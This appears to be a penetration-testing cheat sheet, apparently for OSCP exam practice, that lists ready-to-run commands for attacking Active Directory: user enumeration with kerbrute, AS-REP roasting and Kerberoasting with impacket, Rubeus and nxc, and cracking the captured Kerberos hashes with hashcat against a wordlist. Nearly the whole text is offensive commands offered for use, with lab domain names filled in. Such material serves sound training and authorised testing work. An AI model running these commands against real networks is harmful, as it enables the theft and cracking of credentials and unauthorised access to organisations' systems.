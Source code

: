 * Get Users via `ridbrute` or `kerbrute`

```bash
./kerbrute userenum smb/users.txt -d oscp.exam --dc WIN-EIEE02645O1.oscp.exam
```

* via `Get-NPusers`

```bash
impacket-GetNPUsers -dc-ip $IP oscp.exam/ -no-pass -usersfile users.txt
```

* with user login

```bash
impacket-GetNPUsers -dc-ip $IP oscp.exam/john
```

* With Rubeus

```powershell
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```

* With nxc

```bash
nxc ldap $IP -u users.txt -p '' --asreproast output.txt
```

```bash
nxc ldap $IP -u user -p password --asreproast output.txt
```

* Crack the Hash

```bash
hashcat -a 0 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

## Kerberoasting

* via GetUserSPNs

```bash
impacket-GetUserSPNs -dc-ip lusdc.lustrous.vl  oscp.exam/john.doe:jane:doe -request
```

* via Rubeus

```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```

* via nxc

```bash
nxc ldap $IP -u user -p passwd --kerberoasting kerberoast.txt --kdchost dc01.oscp.exam
```

* Targeted Kerberoast

```bash
python3 targetedKerberoast.py -v -d ms01.oscp.exam -u John.Doe -p 'jane.doe'
```
